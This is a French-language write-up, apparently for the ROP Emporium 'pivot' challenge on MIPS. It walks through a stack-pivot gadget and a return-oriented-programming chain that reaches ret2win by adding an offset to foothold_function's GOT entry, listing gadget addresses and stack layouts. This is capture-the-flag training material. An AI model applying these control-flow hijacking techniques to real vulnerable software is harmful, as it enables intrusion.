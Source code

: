 | ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| leak | leak | adresse de la chaine d'exploitation qui sera restorée dans fp 
| 0x00400cd4 | move sp, fp; lw ra, 8(sp); lw fp, 4(sp); jr ra; addiu sp, sp, 0xc | pivot

Attention, la permière instruction  `move sp, fp` bascule la pile. Mais ensuite les deux suivantes font réalisées.
ra et fp sont lus sur la nouvelle pile qui doit commencer par :

- un junk (n'importe quoi) pour que la suite soit en sp+4
- une valeur pour fp
- une adresse pour ra : le premier gadget de le chaine



### Appeller ret2win

La chaine d'exploitation principale doit appeller la fonction `ret2win`.

Pour cela on va appeller la fonction située à l'adresse de `foothold_function` dans la GOT + l'offset entre `foothold_function` et `ret2win` calculé précédement : 0x378 (888).

La gadget

    0x00400cc4 : add $t9, $t0, $t1 ; jalr $t9 ; addiu $sp, $sp, 4

nous permet cet appel en effectuant un call(t0+t1). 

Il nous faut préalablement charger l'adresse de foothold_function et 888 dans ces deux registres

Le gadget suivant permet de charger t1 avec le contenu d'une adresse mémoire

     0x00400cb0 : lw $t9, 8($sp) ; lw $t2, 4($sp) ; lw $t1, ($t2) ; jalr $t9 ; addiu $sp, $sp, 0xc

Son usage :
    - jump 0x00400cb0 
    - junk car on a rien a mettre dans ($sp)
    - adresse foothold_function@got
    - adresse du prochain gadget pour t9

Ensuite pour charger 888 dans t0 on a : 

    0x00400ca0 : lw $t9, 8($sp) ; lw $t0, 4($sp) ; jalr $t9 ; addiu $sp, $sp, 0xc

    - jump 0x00400ca0 
    - junk car on a rien a mettre dans ($sp)
    - 888
    - adresse du prochain gadget pour t9

Préalabelement il faut encore avoir appelé une première fois `foothold_function` pour que son adresse soit présente dans la pile.
On peut réaliser cet appel avec le gadget qui permet de charget t0 et d'appeller un fonction.

    0x00400ca0 : lw $t9, 8($sp) ; lw $t0, 4($sp) ; jalr $t9 ; addiu $sp, $sp, 0xc

    - jump 0x00400ca0 
    - junk car on a rien a mettre dans ($sp)
    - une valeur junk pour t0
    - foothold_function@plt pour t9
